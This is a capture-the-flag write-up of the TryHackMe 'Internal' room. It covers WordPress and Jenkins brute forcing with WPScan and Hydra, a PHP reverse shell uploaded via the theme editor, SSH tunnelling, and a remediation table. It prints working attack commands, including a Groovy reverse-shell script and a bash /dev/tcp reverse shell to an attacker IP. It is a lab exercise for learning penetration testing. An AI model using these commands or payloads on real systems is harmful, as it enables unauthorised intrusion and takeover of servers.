<h2 class="menu-header" id="main">
<a href="https://github.com/Mithlonde/Mithlonde">Root</a>&#xA0;&#xA0;&#xA0;
<a href="https://github.com/Mithlonde/Mithlonde/blob/main/blog/index.md">Blog</a>&#xA0;&#xA0;&#xA0;
<a href="https://github.com/Mithlonde/Mithlonde/blob/main/projects/index.md">Projects</a>&#xA0;&#xA0;&#xA0;
<a href="https://github.com/Mithlonde/Mithlonde/blob/main/all-writeups.md">Writeups</a>&#xA0;&#xA0;&#xA0;
<a href="https://github.com/Mithlonde/Mithlonde/blob/main/thm/2023-03-27-Internal.md">~/Internal</a>&#xA0;&#xA0;&#xA0;
</h2>

# 👾 Mithlonde
└─$ cat writeups/thm/internal.md



*https://tryhackme.com/room/internal*<br />
`Linux` `WordPress` `WPScan` `brute-force` `PHPMyAdmin` `Hydra` `SSH Tunneling` `Jenkins`

<br />

## TryHackMe CTF Writeup: Internal
- [Summary](#summary)
- [1. Enumeration](#1-enumeration)
  - [1.1 Nmap](#11-nmap)
  - [1.2 Web Discovery (Port 80/tcp)](#12-web-discovery-port-80-tcp)
  - [1.3 Wordpress](#13-wordpress)
  - [1.4 phpMyAdmin](#14-phpmyadmin)
  - [1.5 SSH (Port 22/tcp)](#15-ssh--port-22-tcp)
- [2. Exploitation](#2-exploitation)
  - [2.1 WPScan](#21-wpscan)
  - [2.2 Brute Force Attack](#22-brute-force-attack)
  - [2.3 Initial Foothold](#23-initial-foothold)
- [3. Post Exploitation](#3-post-exploitation)
  - [3.1 Privilege Escalation](#31-privilege-escalation)
  - [3.2 User Flag](#32-user-flag)
  - [3.3 SSH Tunneling](#33-ssh-tunneling)
  - [3.4 Brute-Force Jenkins (Hydra)](#34-brute-force-jenkins-hydra-)
  - [3.5 Attack Vector (Script Console)](#35-attack-vector-script-console)
  - [3.5 3.6 Attack Vector (Build Item)](#36-attack-vector-build-item)
  - [3.7 Root Flag](#37-root-flag)
- [4. Remediation](#4-remediation)
  - [4.1 Recommendations](#41-recommendations)
- [5. Conclusion](#5-conclusion)
- [References](#references)

# Walkthrough

### Summary:

The Internal room on TryHackMe is a more difficult room that combines several penetration testing concepts. A series of challenges focused on hacking into a vulnerable Linux machine and exploiting various web and network vulnerabilities, including WordPress, WPScan, brute-force, PHPMyAdmin, Hydra, SSH Tunneling, and Jenkins. 

The goal is to demonstrate how a hacker can leverage these vulnerabilities to gain unauthorized access and exfiltrate sensitive data (capture the flags).

## 1. Enumeration 

Before we start, **FileForge** is a Python script I created to automate the tedious process of creating a consistent file structure for every new box and avoid spending time on repetitive tasks.

##### It is still a work in progress, yet you can find FileForge here: https://github.com/Mithlonde/Mithlonde/blob/main/projects/index.md.

In simpler terms, it helps you quickly create a new directory for a target you're going to test, and sets up subdirectories for you to store scans and images related to that target. It can also copy specific files you need, like a note-keeping template. Finally, it opens the directory in Visual Studio Code, so you can start your engagement right away and easily access/edit all files via one editor.



### 1.1 Nmap:<a name="11-nmap"></a>

We begin our reconnaissance by running an initial Nmap scan checking default scripts and testing for vulnerabilities. 

I created a script that automates my intial Nmap reconnaissance tasks by scanning for all open ports, then set an environment variable named `ports` to scan all services on all open ports found.

-   **-p-**: scan all ports
-   **--min-rate**: set high scanning rate
-   **-sC**: run default nmap scripts
-   **-sV**: detect service version
-   **-oN**: write output to nmap file



##### You can find my script here: https://github.com/Mithlonde/Mithlonde/blob/main/projects/index.md.

From the above output we can see that ports, **22**, and **80** are open. Not much else of interest apart from that we can see it is underlying system is running Ubuntu

### 1.2 Web Discovery (Port 80/tcp):<a name="12-web-discovery-port-80-tcp"></a>

After discovering the open port 80, I proceeded with the web discovery to see what was there, yet found nothing much of interest there either aside from the default "Apache2 Ubuntu Default Page."



Time to start gobuster, enumerate the directories and have the output written to a file:

```
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 40 -o scans/gobuster-directory -u internal.thm
```

-   **-u**: specify the target URL to scan
-   **-w**: use the specified wordlist to brute-force the directories/files
-   **-t**: sets the number of concurrent threads to use (default: 10)
-   **-o**: output the results to a file



### 1.3 WordPress:<a name="13-wordpress"></a>

After running Gobuster, we stumbled upon a WordPress blog also including a login portal. 





Since we don't have any credentials as of yet, it is always a good idea to do some further digging and understand what we are up against.

To find the WordPress version without logging in, inspect the page source through the front end and search (ctrl + f).

WordPress adds a meta tag to the head section of its generated HTML pages. By searching for the string "generator" in the HTML source code of a WordPress site, we can quickly locate the version of WordPress being used. This information can be useful for vulnerability assessments and targeted attacks that exploit known vulnerabilities in specific versions of WordPress.

>Some newer themes might disable this however. Instead, search for `?ver=` and look under the `link rel=’stylesheet’` sections. You should see a line ending with `?ver=` telling you the version. 
>Accompanied by the Wappalizer browser extension, you can quickly scout the web server for any installed plugins and perhaps their outdated versions.



The current installed version 5.4.2 (released: June 10, 2020) is slightly outdated as the current latest version at time of writing this is 6.1.1 (released: November 15, 2022). So we can add this as a finding.



##### Source: https://wordpress.org/documentation/article/wordpress-versions/

While searching for known exploits, we did see some vulnerabilities regarding this WordPress version. Although since this required certain plugins to be installed, we will simply make a note of these and move on with our enumeration.



In order to double check the Apache version running on the Ubuntu Linux distribution, we can simply create a "404 Not Found" response. 



The user enumeration vulnerability discovered on the login page can be considered as a serious security risk however. By using error handling responses, it was possible to verify the existence of the "admin" user and eliminate other usernames as invalid.

In addition, the "hello world" blog post authored by the admin user confirms that we might be able to attempt a brute force attack.





In addition, the "hello world" blog post authored by the admin user confirms that we might be able to attempt a brute force attack.



### 1.4 phpMyAdmin:<a name="14-phpmyadmin"></a>

During the initial enumeration, I came across several Gobuster directories such as `/wordpress` and `/javascript`, but they didn't provide any useful information ("OOPS! THAT PAGE CAN’T BE FOUND"). 

However, I discovered that `/phpmyadmin` was available. 



After viewing its source code, I found that it was running version "4.6.6deb5" of phpMyAdmin. 



I also found through searchsploit that this version of phpMyAdmin has multiple vulnerabilities, including a Remote Code Execution (RCE) exploit with the CVE ID "[CVE-2018-12613](https://www.exploit-db.com/exploits/50457)". Nevertheless, this exploit requires a valid username and password to work and the others felt like a rabbit hole I could attempt if all else failed.



When attempting to log in to the phpMyAdmin portal with the admin:admin credentials, I encountered the following error message:



The error message that we are seeing in the screenshot indicates that the PHP code was not able to authenticate with the MySQL server using the username and password provided. It could be due to incorrect credentials, or a lack of required permissions.

What I found interesting however, was the mention of "localhost." Which simply means that the PHP code was trying to connect to the MySQL server running on the same machine where the PHP code is running, in this case a local machine. "localhost" is a keyword in MySQL that refers to the local machine.

So perhaps SSH tunneling is one way to access the MySQL database running on the remote server.

>SSH tunneling allows you to establish a secure connection to the remote server and forward traffic through that connection to another server. This is useful when you want to access a service on the remote computer that is not directly accessible from your local computer


Based on the findings, the presence of an outdated version of phpMyAdmin on the web server can be classified as a vulnerability. 

Additionally, it is worth noting that phpMyAdmin has a history of security vulnerabilities. In particular, version "4.6.6deb5" of phpMyAdmin is known to have multiple vulnerabilities (see: https://www.exploit-db.com/search?q=phpmyadmin).

This is particularly problematic for ISO27002-2022, which requires organizations to regularly update their software and systems to maintain their security posture. For this reason, some security experts argue that phpMyAdmin should be avoided altogether and replaced with more secure alternatives.

##### Interesting read: https://internetcleanup.foundation/2023/03/overheid-%E2%9D%A4%EF%B8%8F-phpmyadmin-10-weg-in-7-dagen/

### 1.5 SSH (Port 22/tcp):<a name="15-ssh--port-22-tcp"></a>

So after finding potential attack vectors, I went back to the Nmap results, and ran an additional script against SSH on port 22 to enumerate authentication methods.



As we currently do not have any SSH credentials, we can conclude our initial enumeration and proceed with brute forcing the WordPress login portal for an initial foothold.

---
## 2. Exploitation

The first step towards our initial foothold involves finding a way to gain access to the WordPress site and confirm it is vulnerable. One approach is to use WPScan.

### 2.1 WPScan:<a name="21-wpscan"></a>

>**WPScan (WordPress Security Scanner)** is a popular open-source tool used to scan WordPress websites for vulnerabilities. It uses a database of known vulnerabilities and publicly available exploits to identify security issues in WordPress installations. WPScan can also enumerate WordPress users, plugins, and themes, and it includes password cracking capabilities for brute-forcing login credentials.


```
wpscan --url internal.thm/blog --disable-tls-checks -e u
```

-   **--url**: specify the target URL to scan.
-   **--disable-tls-checks**: to skip the TLS/SSL certificate check and establish a connection regardless of the certificate's validity. This can allow WPScan to detect vulnerabilities that it might have missed otherwise (but it also means that you are accepting the risk of connecting to a potentially untrusted website).
-   **-e u**: specifies that only user enumeration should be performed.



The above screenshot from the WPScan results mentions that "XML-RPC seems to be enabled." Meaning that the website is accepting XML-RPC POST requests. Overall, this finding suggests that there may be a potential security risk associated with the XML-RPC implementation on the website, but more information is needed to determine the severity and potential impact of this vulnerability.

Now this is where the interesting part begins, as this is where we found the Weak authentication on XML-RPC endpoint allows for brute-force attacks.

##### See additional Metasploit module: https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/

**Additional Findings**:

```
[+] URL: http://internal.thm/blog/
[+] Started: Mon Mar 27 17:36:02 2023

[+] Headers
 | Interesting Entry: Server: Apache/2.4.29 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://internal.thm/blog/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.4.2 identified (Insecure, released on 2020-06-10).
 | Found By: Rss Generator (Passive Detection)
 |  - http://internal.thm/blog/index.php/feed/, <generator>https://wordpress.org/?v=5.4.2</generator>
 |  - http://internal.thm/blog/index.php/comments/feed/, <generator>https://wordpress.org/?v=5.4.2</generator>

[+] WordPress theme in use: twentyseventeen
 | Location: http://internal.thm/blog/wp-content/themes/twentyseventeen/  

 | Last Updated: 2022-11-02T00:00:00.                                                                                                                    
 | Readme: http://internal.thm/blog/wp-content/themes/twentyseventeen/readme.txt                                                                               
 | [!] The version is out of date, the latest version is 3.

[i] User(s) Identified:

[+] admin
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Rss Generator (Passive Detection)
 |  Wp Json Api (Aggressive Detection)
 |   - http://internal.thm/blog/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)
```

**The following are the summary of the findings**:

- The theme version used in the website is "twentyseventeen" and it seems to be outdated. 
- The external WP-Cron feature is possibly enabled and can be accessed directly through the URL "http://internal.thm/blog/wp-cron.php".

>**WP-Cron** is a feature that allows WordPress to schedule tasks to be executed at a specific time or interval (publishing scheduled posts, sending emails, checking for plugin updates, and more). However, the problem is that WP-Cron is triggered on every page load, which means that if there are many scheduled tasks or a task takes a long time to execute, it can slow down the site or even crash it.
>From a security perspective, an attacker can abuse WP-Cron by triggering it multiple times, which can cause a **Distributed Denial of Service (DDoS)** attack by overwhelming the server with requests. 
>The severity level of this finding may vary depending on the specific circumstances and the site's configuration.

### 2.2 Brute Force Attack:<a name="22-brute-force-attack"></a>

Considering the weak authentication on the XML-RPC endpoint, we can use the 'admin' username on the WordPress login page to conduct a successful password attack with WPScan as well using the following command:

```
wpscan --url http://internal.thm/blog/ --usernames admin --passwords /usr/share/wordlists/rockyou.txt
```

Within less than 3 minutes we already have a hit due to the weak password used (6 letters, 1 digit)



Now that we have obtained valid credentials, we can use them to gain access to the WordPress dashboard and begin exploring the site's configuration and plugins for vulnerabilities that we can exploit.

### 2.3 Initial Foothold:<a name="23-initial-foothold"></a>

Straight after we are logged in, we are prompted with the "Administration email verification" request. This explains why the previous password reset error handling stated it was unable to verify the email address. We can simply select the "Remind the later" option here and proceed.



While reviewing the all of the posts, aside from the "Hello World!", a private note was discovered containing login credentials in clear text.





Attempts were made to use these credentials on both **phpMyAdmin** and **SSH**, but were unsuccessful. It was noted that the only active user listed on the WordPress blog was the admin account. The discovery of the note may be an indication of poor security practices, yet seemed to be a another rabbit hole for now.

The next possible attack vector was to upload a **PHP reverse shell** to gain access to the underlying system via our Netcat listener. 



##### See: https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php. 

The next step was to find a place to upload it.

Knowing we have a possibly outdated theme plugin, I located the **theme editor** at `http://internal.thm/blog/wp-admin/theme-editor.php` and noticed we could overwrite the "404 Template (404.php)" with our malicious PHP shell (Appearance > Theme Editor). 



From the results of the previous wpscan-userenum command, it was discovered that the PHP file would likely be saved in `http://internal.thm/blog/wp-content/themes/twentyseventeen/404.php`. Using the `curl` command, we were able to obtain a reverse shell as the `www-data` user.

>It's worth mentioning that rlwrap is an useful command line utility that allows us to navigate through command history using the arrow keys.



Now that we have an initial shell on this machine, we can further enumerate the machine and escalate our privileges to root.

---
## 3. Post Exploitation

Nevertheless, this shell is not stable right now. So let's solve that first so we will not accidentally kick ourselves out again.

1. The first thing to do is use `python3 -c 'import pty;pty.spawn("/bin/bash")'`, which uses Python to spawn a better featured bash shell; note that some targets may need the version of Python specified *(type `python -V` to print the current version number)*. If this is the case, replace `python` with `python2` or `python3` as required. At this point our shell will look a bit prettier, but we still won't be able to use tab to auto complete input, nor the arrow keys, and 'Ctrl + C' will still kill the shell.
2.  Step two is: `export TERM=xterm-256color`, this will give us access to terminal commands such as `clear` and a terminal type that supports 256 colors.
3.  Finally (and most importantly) we will background the shell using Ctrl + Z. Back in our own terminal we use `stty raw -echo; fg`. This does two things: first, it turns off our own terminal echo (which gives us access to use 'tab' to autocomplete our input, the arrow keys, and 'Ctrl + C' to kill processes). It then foregrounds the shell again, thus completing the process.

> **Note:** *that if the shell dies, any input in your own terminal will not be visible (as a result of having disabled terminal echo). To fix this, type `reset` and press enter.*

We now have a stable shell and can continue with our privilege escalation.

Once I gained access, I used the `find /home -name user.txt` to quickly search for the user flag and found its location, we simply lack the access as of now. We did immediately find a valid username, "aubreanna."



### 3.1 Privilege Escalation:<a name="31-privilege-escalation"></a>

The privilege escalation for this box interesting, as it included several layers. But first of all, we can download linPEAS, make it executable and download it to the internal system via our Python HTTP server.

##### Source: https://github.com/carlospolop/PEASS-ng/releases/tag/20230326









**LinPEAS found the following mandatory findings**:

- **CVEs Check** states system is vulnerable to **CVE-2021-4034** and Potentially Vulnerable to CVE-2022-2588.
- **SGID binary** `/snap/core/8268/usr/lib/snapd/snap-confine` could possibly be used to escalate privileges using Dirty Sock vulnerability.
- **Files with capabilities**, in this case, `/usr/bin/mtr-packet` has the `cap_net_raw` capability, which could allow it to bypass network stack restrictions and perform raw socket operations. If this capability is not properly restricted, an attacker who gains control of the mtr-packet binary could use it to perform malicious network operations. Although considering the low hanging fruit first, I did not attempt this, thus was not able to verify.
- **Several readable files belonging to root** and readable by the user were found, including phpMyAdmin and WordPress configuration files.
- **Cleat text passwords** were found in the PHP configuration files, including credentials for phpMyAdmin and WordPress.

With the credentials found, we are able to log in to phpMyAdmin server. Also logging in via the terminal as www-data via `mysql -u phpmyadmin -p` command is possible.



This provides some useful information like the server type, server version, PHP version and more. However, looking through the whole phpmyadmin database, I found nothing interesting or that was not found before – seemed to be a dead end. 

I could login to phpMyAdmin as well using the wordpress credentials, only interesting find there was the MD5 hash of the admin password.





Given these results, I decided to try the vulnerability found to gain elevated privileges.

>CVE-2021-4034
>Published 2022-01-28T20:15:00
>A local privilege escalation vulnerability was found on **polkit's pkexec utility**. The pkexec application is a setuid tool designed **to allow unprivileged users to run commands as privileged users** according predefined policies. The current version of pkexec doesn't handle the calling parameters count correctly and ends trying to execute environment variables as commands. An attacker can leverage this by crafting environment variables in such a way it'll induce pkexec to execute arbitrary code. When successfully executed the attack can cause a local privilege escalation given unprivileged users administrative rights on the target machine.

##### Also: https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt - Exploit: https://github.com/ryaagard/CVE-2021-4034

>Note that if on box without make or gcc installed, you can upload the binaries to the box directly allowing it to work. Just make the exploit executable `chmod +x exploit` and run it with `./exploit`. 
>
>Remediation: you can remove the sticky bit to the pkexec which will make the exploit stop from working.

Nevertheless, I was not able to verify this as a finding since the exploit did not work in the end and provided the following error: `./exploit: /lib/x86_64-linux-gnu/libc.so.6: version `GLIBC_2.34' not found (required by ./exploit)`.

Considering box was created 21 Aug 2020 and CVE-2021-4034 published in 2021, there must be a different way also.

After hitting a dead-end here, I decided to take a step back and double check the scan results. Surprisingly, while browsing the linPEAS log, I stumbled upon a TXT file named "wp-save.txt" in the `/opt` folder. It seems I missed this earlier as it was not being highlighted. Lesson learned, always try smarter.





### 3.2 User Flag:<a name="32-user-flag"></a>

Now we can finally log in to SSH via the enumerated credentials of **aubreanna** and read the user flag we located earlier.



### 3.3 SSH Tunneling:<a name="33-ssh-tunneling"></a>

While examining the system, I had noticed that the **localhost** was being used and that there was a **Docker** container running (noticed while logging in via SSH as aubreanna). This led me to wonder whether it was possible to use port forwarding to reach another remote server. Later on, I found a reference to an internal Jenkins service running on IP address 172.17.0.2 and port 8080 in the jenkins.txt file.

To access the Jenkins server, I used the `ssh -L 8080:172.17.0.2:8080 aubreanna@$IP` command to establish an SSH connection with port forwarding.



This command creates a secure shell connection (ssh) and forwards connections to port 8080 on the local machine to port 8080 on the remote machine (-L 8080:172.17.0.2:8080). The aubreanna@$IP argument specifies the username and IP address of the remote machine. As a result, I was able to access the Jenkins server through my browser.



### 3.4 Brute-Force Jenkins (Hydra):<a name="34-brute-force-jenkins-hydra-"></a>

By now, some of you might already be familiar with Jenkins as we also exploited this via the TryHackMe room ["Alfred"](https://github.com/Mithlonde/Mithlonde/blob/main/thm/2023-01-07-alfred.md). 

While manually trying some default credentials like admin:admin as we done before and having no easy picking there, I inspected both the login form's source code as well as the Burp Suite captured responses of the attempted logins. Knowing that we could use Hydra to brute-force our way into server, I gathered both the request type (POST), URL (via source code) and failed attempt message.





This gave me a good starting point to spin up Hydra to perform another brute-force attack. In order to use Hydra, we need to provide it with a valid login page and the necessary parameters.

>**Note**: We replace the actual keep the username as it is and replace the  password value with a ^PASS^ placeholder in our Hydra command because Hydra uses this placeholder as variables during the brute-force attack. This way, we don't have to manually enter the username and password for each try, and Hydra can automate the process of trying different passwords until it finds the correct one.

```
sudo hydra -l admin -P /usr/share/wordlists/rockyou.txt -s 8080 127.0.0.1 http-post-form "/j_acegi_security_check:j_username=admin&j_password=^PASS^&from=%2F&Submit=Sign+in:F=Invalid username or password"
```

- **-l**: set the username
- **-P**: specify the password list to be used
- **http-post-form**: set the target's service to be HTTP POST form
- **/j_acegi_security_check**: specify the login form's path
- **F=**: set the string to be checked against the server's response to see if the login is successful or not



And we are in!



### 3.5 Attack Vector (Script Console):<a name="35-attack-vector-script-console"></a>

Knowing we were able to have Jenkins execute a command to the underlying system in our previous box "Alfred," I want straight to verifying if these methods were still valid with this newer Jenkins version (Ver 2.250).

There is a script console that we can asses, and upon opening it we are greeted with a mention of the **Groovy script** being used. Simply searched "reverse shell groovy script" and first hit was a go: https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76. Having it send a quick `whoami` command we can get some data across to or own machine.

```
String host="Attacker IP";
int port=9001;
String cmd="whoami";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```



So we explored the script console and tested a Groovy script that executes a command on the underlying system. This is a common attack vector for Jenkins servers.

### 3.6 Attack Vector (Build Item):<a name="36-attack-vector-build-item"></a>

Trying the same `whoami` command while building a new item, confirming this method is still possible. We were also able to upload a TXT file as a test.

The pictures below is from a Jenkins build of "Project 1". The build was started by the user "admin" and executed as the system user. The build ran a shell script `/tmp/jenkins4225340866268700882.sh` that printed the name of the user running the build using the whoami command. The build finished successfully.

















After this it was confirmed we could even do directory listing (`ls -la), `cat` our `test.txt`, and read the `/etc/passwd` file:







- **/bin/sh**: specifies that the shell to be used is the Bourne shell.
- **-xe**: options for the shell to print each command before executing it (x), and to stop the build immediately if any command exits with a non-zero status code (e).
- **/tmp/jenkins4225340866268700882.sh**: path to the shell script that was executed.

You can find several reverse shell onelines here: https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet. The `rev.sh` shown in the pictures below uses the following:

```
bash -i >& /dev/tcp/10.14.46.159/9002 0>&1
```





We tested the build item attack vector and were able to execute commands and access sensitive files on the remote machine. We now have access to the additional remote server as user `jenkins`.

### 3.7 Root Flag:<a name="37-root-flag"></a>

As you will see now we can successfully elevate our privileges to root by scanning this system with linPEAS as well, thus completing the task.







---
## 4. Remediation 

It's important to note that remediating vulnerabilities requires an ongoing effort and it's important to keep the system up to date and review it regularly for new vulnerabilities. It's also important to give clear instructions and guidelines for the staff, and to establish a plan of action in case of a security breach.

### 4.1 Recommendations:<a name="41-recommendations"></a>

https://tcm-sec.com/wp-content/uploads/2021/10/TCMS-Demo-Corp-Security-Assessment-Findings-Report.pdf

The following tables illustrate the vulnerabilities found by impact and recommended remediations:

| Critical / C | High / H | Moderate / M | Low / L | Info / I |
|----------|------|----------|-----|-----|
| <p align="center">:red_circle: x0</p> | <p align="center">:orange_circle: x6</p> | <p align="center">:yellow_circle: x2</p> | <p align="center">:green_circle: x5</p> | <p align="center">:large_blue_circle: x3</p> |

| Finding | Severity | Recommendation |
|---------|----------|----------------|
| Outdated phpMyAdmin Detected (4.6.6deb5) | <p align="center">:orange_circle: H</p> | See Additional note on phpMyAdmin* |
| WordPress version 5.4.2 identified (Insecure, released on 2020-06-10) | <p align="center">:orange_circle: H</p> | It is recommended that you update your WordPress software to the latest version to ensure that your website is protected against any known security vulnerabilities. You should also keep your plugins and themes updated to the latest versions as well, as they may also contain security vulnerabilities that could be exploited. |
| Clear Text Password Storage | <p align="center">:orange_circle: H</p> | Significant security risk posed by storing passwords in clear text. The recommendation for this finding would be to immediately change all the passwords that were found to be stored in clear text and implement proper password storage mechanisms. See additional recommendations.* |
| Wordpress login portal username enumeration vulnerability | <p align="center">:orange_circle: H</p> | Implement a login attempt limiting mechanism to prevent brute-force attacks. Configure the server to not display detailed error messages or sensitive information in error messages. |
| Brute-Force Attack on Jenkins Login Form | <p align="center">:orange_circle: H</p> | Implement strong password policies and account lockout policies. Implement rate limiting to prevent brute-force attacks. Also, see additional recommendations.* |
| Brute-Force Attack on weak authentication on XML-RPC | <p align="center">:orange_circle: H</p> | Implement strong password policies and account lockout policies. Implement rate limiting to prevent brute-force attacks. Also, see additional recommendations.* |
| Arbitrary shell command execution through build items in Jenkins | <p align="center">:orange_circle: H</p> | Restrict access to build items to authorized users only. Implement input validation to prevent the execution of arbitrary shell commands. Regularly audit and review build items. Disable unused or unnecessary build items. |
| Access to Script Console via Groovy Script (Jenkins) | <p align="center">:yellow_circle: M</p> | Restrict access to the script console. |
| WordPress theme Version: 2.3: twentyseventeen | <p align="center">:yellow_circle: M</p> | it is recommended to update the theme from version 2.3 to the latest version 3.1 to ensure any vulnerabilities are patched. |
| Outdated Akismet Anti-Spam Plugin Detected (4.1.5) | <p align="center">:green_circle: L</p> | There is a new version (4.1.6) of Akismet Anti-Spam available. Unlikely to pose a significant security risk on its own. However, it's still a good idea to update to the latest version when possible | 
| Port Forwarding to Jenkins server via SSH connection | <p align="center">:green_circle: L</p> | Review and update SSH configuration to ensure secure connections. Use a VPN for secure remote access to the server. Restrict port forwarding and limit access to only authorized users. Enable Multi-Factor Authentication (MFA) for accessing sensitive services like Jenkins. | 
| Permissions review | <p align="center">:green_circle: L</p> | Review permissions and roles assigned to users and groups, and limit access to sensitive data and functionality. |
| IP-based firewall | <p align="center">:green_circle: L</p> | Use a firewall to restrict access to BlogEngine.NET login portal to only trusted IP addresses. |
| Intrusion detection | <p align="center">:green_circle: L</p> | Monitor for suspicious activity and implement intrusion detection and prevention measures. |
| WP-Cron Enabled | <p align="center">:large_blue_circle: I</p> | Double-check and ensure that all scheduled tasks are legitimate, and the plugin/theme developers have followed best practices to prevent any potential abuse. Disable external access to WP-Cron and configure it to run via system cron instead. This can be achieved by adding the following line to the wp-config.php `file: define('DISABLE_WP_CRON', true);` |
| Open Ports | <p align="center">:large_blue_circle: I</p> | Unused open ports expose attack surface. Close unused ports to reduce attack surface. |
| Banner Grabbing | <p align="center">:large_blue_circle: I</p> | Server banner reveals software and version information. Disable server banner or customize it to prevent information disclosure. |

***Additional recommendations**:

1. Avoid storing sensitive information such as passwords in plain text. Use secure methods such as hashing with a strong salt or encryption to store passwords.
2. Remove any clear text passwords from the config PHP files.
3. Educate all users on the importance of creating strong, unique passwords and not using the same password for multiple accounts.
4. Enforce a password policy that requires users to create passwords with a minimum length and complexity.
5. Consider using a password manager to securely store and manage passwords.
6. Remove any "To-Do" notes that contain sensitive information, and instead use a secure method for password resets.
7. Regularly review and audit the security of the system to ensure that sensitive information is not being stored in clear text.
8. Train users on best practices for protecting their login credentials and how to report any suspicious activity.
9. Enable Multi-Factor Authentication (MFA).
10. Disable default accounts and remove unused accounts.

***Additional note on phpMyAdmin**:

It is worth noting that phpMyAdmin has a history of security vulnerabilities. In particular, version "4.6.6deb5" of phpMyAdmin is known to have multiple vulnerabilities (see: https://www.exploit-db.com/search?q=phpmyadmin).

This is particularly problematic for ISO27002-2022, which requires organizations to regularly update their software and systems to maintain their security posture. For this reason, some security experts argue that phpMyAdmin should be avoided altogether and replaced with more secure alternatives.

##### Interesting read: https://internetcleanup.foundation/2023/03/overheid-%E2%9D%A4%EF%B8%8F-phpmyadmin-10-weg-in-7-dagen/

---
## 5. Conclusion 

So it seemed I went into quite a rabbit hole trying to confirm vulnerabilities, yet it seems we were actually able to brute force the multiple logins by using and make note of quite some findings.

This box presented several security vulnerabilities, including the use of weak passwords, the storage of sensitive data in clear text, and the exposure of sensitive services to the public internet. These vulnerabilities allowed us to gain initial access to the system and escalate privileges to gain full control of the system. The use of outdated software versions also contributed to the system's vulnerability.

Overall, this room was an excellent learning experience. It was challenging and informative. It is a great way to learn about pentesting in general if you also focus on the recommendations. 

It's important to note that these methods should only be performed on systems that you have permission to test. Unauthorized testing is illegal and can result in serious consequences.

In conclusion, I hope this write-up has helped you understand some of the basic techniques used in penetration testing and how to identify and exploit vulnerabilities to gain access to a system.

---
## References
1. https://tryhackme.com/room/internal
2. https://wordpress.org/documentation/article/wordpress-versions/
3. https://www.exploit-db.com/search?q=phpmyadmin
4. https://internetcleanup.foundation/2023/03/overheid-%E2%9D%A4%EF%B8%8F-phpmyadmin-10-weg-in-7-dagen/
5. https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
6. https://github.com/carlospolop/PEASS-ng/releases/tag/20230326
7. https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt
8. https://github.com/ryaagard/CVE-2021-4034
9. https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76
10. https://tryhackme.com/room/alfred
11. https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
